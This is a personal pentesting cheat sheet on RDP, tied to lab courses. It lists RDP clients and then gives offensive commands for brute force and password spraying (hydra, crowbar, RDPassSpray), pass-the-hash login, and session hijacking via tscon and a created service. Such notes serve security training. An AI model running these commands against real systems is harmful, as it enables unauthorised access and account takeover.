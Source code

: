 # Remote Desktop Protocol (RDP)

[![windowsfundamentals](../../../cybersecurity/_badges/htb/windowsfundamentals.svg)](https://academy.hackthebox.com/course/preview/windows-fundamentals)
[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Remote Desktop Protocol (RDP) is a protocol used to access a  desktop with a graphical interface from another computer over a network connection.

🐊️ **Port**: 3389 <small>(TCP or rarely UDP)</small>

On Windows, there is the built-in Windows RDP Client: `mstsc.exe`.

There is [rdesktop](https://github.com/rdesktop/rdesktop) (1.1k ⭐). It supports [file transfer](/cybersecurity/red-team/_knowledge/topics/file_transfer.md).

There is [FreeRDP](https://github.com/FreeRDP/FreeRDP) (7.5k ⭐), and there is a graphical version too [xfreerdp-gui](https://github.com/wyllianbs/xfreerdp-gui) (29 ⭐). It supports [file transfer](/cybersecurity/red-team/_knowledge/topics/file_transfer.md).

```shell!
$ xfreerdp /u:username /p:password /v:IP
$ xfreerdp /u:username /pth:hash /v:IP
$ xfreerdp /dynamic-resolution +clipboard /timeout:50000 /cert:ignore /v:IP /u:x /p:y
```
</div><div>

There is [Remmina](https://github.com/FreeRDP/Remmina) <small>(2.1k ⭐, `apt install remmina`)</small> which has an easy-to-use graphical interface.

* `remmina`: start the graphical interface
  * Enter the IP of the target
  * Enter the credentials
  * Connect
* Then, I would advise toggling "dynamic resolution update" in the left menu, so that you have a bigger screen.
* In preferences, we are able to select a keyboard mapping
* [You can scale the screen too](https://askubuntu.com/questions/1075098/remmina-scaling-options)

**Note ⚠️**: In preferences, quality settings, you can select to use poor quality with wallpaper to increase performance.
</div></div>

<hr class="sep-both">

## RDP Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![passwordattacks](../../../cybersecurity/_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

* Using [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md) to run scripts

```ps
$ # nmap RDP cookies are leaving traces (--packet-trace)
$ sudo nmap -sV -sC -p 3389 --script rdp* IP
```

#### Foothold

[![password_attacks](../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![passwordattacks](../../../cybersecurity/_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

* The password may be weak and vulnerable to [brute force](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md).

```shell!
$ hydra -L user.list -P password.list rdp://IP -V
$ crowbar -b rdp -s IP/32 -u username -C password.list -v -n 64
```

There is also [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) <small>(0.6k ⭐)</small>.

```ps
$ python3 RDPassSpray.py -u username -p password -t IP:port
$ python3 RDPassSpray.py -U usernames.lst -p password -t IP:port
$ python3 RDPassSpray.py [...] -d domain
$ python3 RDPassSpray.py [...] -T rdp_servers.lst
```
</div><div>

#### Exploitation

[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* **RDP Session Hijacking**: connect to another user session. On Windows, as admin, we can use [tscon](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon).

```ps
PS> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

On Windows Server prior to 2019 as a local administrator, we can use:

```ps
PS> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
PS> net start sessionhijack
```

#### Well-known CVEs

* [BlueKeep Vulnerability](https://en.wikipedia.org/wiki/BlueKeep) <small>(2019, RCE, unstable/BSoD)</small>

#### Additional Tools

* [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) <small>(0.2k ⭐, 2021 🪦)</small>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* ms-wbt-server (Windows RDP implementation)
* [Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Remote_Desktop_Services#Network_Level_Authentication)
</div><div>
</div></div>